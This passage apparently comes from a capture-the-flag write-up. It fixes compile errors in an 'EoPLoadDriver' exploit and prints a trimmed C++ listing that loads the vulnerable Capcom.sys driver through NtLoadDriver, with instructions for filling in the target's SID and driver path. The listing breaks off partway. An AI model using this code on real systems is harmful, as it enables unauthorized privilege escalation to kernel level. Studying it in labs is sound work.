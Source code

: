 This resulted in some compilation errors... Here is the first:

```
EoPLoadDriver/eoploaddriver.cpp:6:10: fatal error: stdafx.h: No such file or directory
```

- https://stackoverflow.com/questions/38470207/codeblocks-fatal-error-stdafx-h-no-such-file-or-directory

This error can be fixed by removing the call to `#include "stdafx.h"`. Next error(s):

```
EoPLoadDriver/eoploaddriver.cpp:7:10: fatal error: Windows.h: No such file or directory
EoPLoadDriver/eoploaddriver.cpp:8:10: fatal error: Winternl.h: No such file or directory
```

- https://github.com/mxe/mxe/issues/1437

These errors can be fixed by moving the capital `W` in the `#include` preprocessor command to a lowercase `w`. 

**However**, even after all these fixes, using this on the target did not work since the code fails to get the SID of the current user correctly? Instead of fixing the code, just shorten the code to only the important parts:

- This code is easily modifiable:
  - Run `whoami /all` on the target to get the SID of the user for the `USER_SID` variable. 
  - Set `SYS_PATH` to the location of `Capcom.sys` on the target

```cpp
#include <windows.h>
#include <winternl.h>
#include <tchar.h>
#include <stdio.h>
#include <sddl.h>
#include <shellapi.h>
#include <strsafe.h>

// NOTE: make sure this is the location where Capcom.sys is
const wchar_t* SYS_PATH = L"C:\\Users\\svc-print\\Capcom.sys";
// NOTE: run "whoami /all" to get this
const wchar_t* USER_SID = L"S-1-5-21-2633719317-1471316042-3957863514-1104";
const wchar_t* REG_PATH = L"System\\CurrentControlSet\\BUBBA";

ULONG LoadDriver(const wchar_t* userSid, const wchar_t* RegistryPath) {
  NTSTATUS status;
  UNICODE_STRING DriverServiceName;

  typedef NTSTATUS(_stdcall *NT_LOAD_DRIVER)(IN PUNICODE_STRING DriverServiceName);
  typedef void (WINAPI* RTL_INIT_UNICODE_STRING)(PUNICODE_STRING, PCWSTR);

  NT_LOAD_DRIVER NtLoadDriver = (NT_LOAD_DRIVER)GetProcAddress(GetModuleHandleA("ntdll.dll"), "NtLoadDriver");
  RTL_INIT_UNICODE_STRING RtlInitUnicodeString = (RTL_INIT_UNICODE_STRING)GetProcAddress(GetModuleHandleA("ntdll.dll"), "RtlInitUnicodeString");

  wchar_t registryPath[MAX_PATH];
  snwprintf(registryPath, MAX_PATH, L"\\Registry\\User\\%ls\\%ls", userSid, RegistryPath);
  wprintf(L"[+] Loading Driver: %ls\n", registryPath);
  RtlInitUnicodeString(&DriverServiceName, registryPath);
  status = NtLoadDriver(&DriverServiceName);
  printf("NTSTATUS: %08x, WinError: %d\n", status, GetLastError());
  return 0;
}

//https://msdn.microsoft.com/en-us/library/windows/desktop/aa446619(v=vs.85).aspx
BOOL SetPrivilege(HANDLE hToken, LPCTSTR lpszPrivilege, BOOL bEnablePrivilege) {
  LUID luid;
  TOKEN_PRIVILEGES tp;
```